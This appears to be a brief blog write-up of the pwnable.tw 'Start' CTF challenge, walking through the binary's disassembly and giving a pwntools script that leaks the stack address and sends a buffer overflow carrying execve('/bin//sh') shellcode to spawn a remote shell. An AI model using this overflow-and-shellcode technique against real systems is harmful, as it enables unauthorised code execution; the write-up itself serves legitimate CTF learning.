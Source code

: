 ```yaml
---
layout: post
title: 'Pwnable.tw: Start'
published: true
---
```

First, we check file info: 

![Capture.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/Capture.PNG)


It's a .elf file. Now we should open disassembler like IDA Pro.
![assembly.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/assembly.PNG)


As you can see, it firsts push esp, and push address `_exit` fuction, then push 5 times hex numbers. If you look closer by convert it to string, that's the string "Let's start the CTF:" at the beginning of the program. 

*`int 80` is a system call in Linux, you can read it more at [here](http://asm.sourceforge.net/syscall.html).
It depends on the number before to make a move. E.g: the number before first instruction `int 80` at `0804808F` is 4, it means [sys_write](http://asm.sourceforge.net/syscall.html#4); the number before the second is 3, it is [sys_read](http://asm.sourceforge.net/syscall.html#3).*

Source code for pwn:
{% highlight python linenos %}
from pwn import *

  conn = remote("chall.pwnable.tw", 10000)
  conn.recv(20)

  shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

  payload = 'A'* 20 + p32(0x08048087)
  conn.send(payload)
  esp_add = conn.recv(20)

  print esp_add

  esp_add = u32(esp_add[0:4])
  print esp_add
  payload = 'A' * 20 + p32(esp_add + 20) + shellcode
  conn.send(payload)


  conn.interactive()
  conn.close()
{% endhighlight %}
